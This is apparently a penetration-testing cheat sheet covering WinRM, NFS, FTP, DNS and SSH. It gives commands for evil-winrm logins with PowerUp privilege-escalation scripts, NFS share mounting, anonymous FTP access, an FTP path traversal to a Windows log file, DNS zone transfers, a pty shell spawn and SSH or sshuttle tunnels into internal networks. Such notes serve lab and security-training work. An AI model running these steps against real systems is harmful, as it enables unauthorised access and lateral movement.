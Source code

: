 
## WinRM
- WinRM from Linux: https://github.com/Hackplayers/evil-winrm  
  `# ruby evil-winrm.rb -i 10.10.10.169 -u Hans -p 'Wurst123!' -s /opt/PowerSploit/Privesc/`  
  `*Evil-WinRM* PS C:\Users\Hans\Documents> PowerUp.ps1`  
  Now, locate all imported functions with "menu"   

## NFS
 - `nmap -p 111 --script=nfs* -iL nfstargets.txt`  
   example output:  
   `PORT    STATE SERVICE`  
   `111/tcp open  rpcbind`  
   `| nfs-ls: Volume /home`  
   `|   access: Read Lookup NoModify NoExtend NoDelete NoExecute`  
   Mount the dir:  
  `mkdir nfsmount; sudo mount -o nolock 10.11.1.72:/home ~/nfsmount/`  

## FTP
- First check for anonymous access  
  `ftp $targetip`  
  `Username: anonymous`  
  `Password: anything`  

Path traversal: 
- FTP: `ftp://10.11.1.125/../../../../windows/system32/wbem/logs/mofcomp.log`  

## DNS 
- DNS Zone transfer lookup  
  `host -l <domain> <nameserver IP address>`  
  (e.g.: host -l megacorpone.com 38.100.193.80)  
  this might provide additional information about the network, listing hostnames and ip addresses  

## SSH
- "unable to negotiate with ... no matching key ex found" --> add to config:   
  `# cat /root/.ssh/config`  
  `host 10.11.1.252`   
     `KexAlgorithms +diffie-hellman-group1-sha1`  
     `PubkeyAcceptedKeyTypes=+ssh-dss`  

- "xxxx must be run from a terminal" --> spawn terminal:
   1. `echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py` 
   2. `python /tmp/asdf.py` 
- SSH Tunnel (Source --> public ip 1.1.1.1 --> machine with private ip 2.2.2.2) to RDP to internal VM (2.2.2.2)  
  `ssh -l <username-on-1.1.1.1> (-i key.txt) -L 1337:2.2.2.2:3389 1.1.1.1`  
  afterwards you can RDP to the internal VM with: localhost:1337  
- SSH Tunnel with SSHuttle:  
  `sshuttle -vvr user@10.10.10.10 10.1.1.0/24` 
  With SSH Key:  
  `sshuttle -vr root@10.10.10.13 172.16.1.0/24 --ssh-cmd 'ssh -i sshloginkey.txt'`  
  Now all traffic to 172.16.1.0/24 will be sent to the tunnel
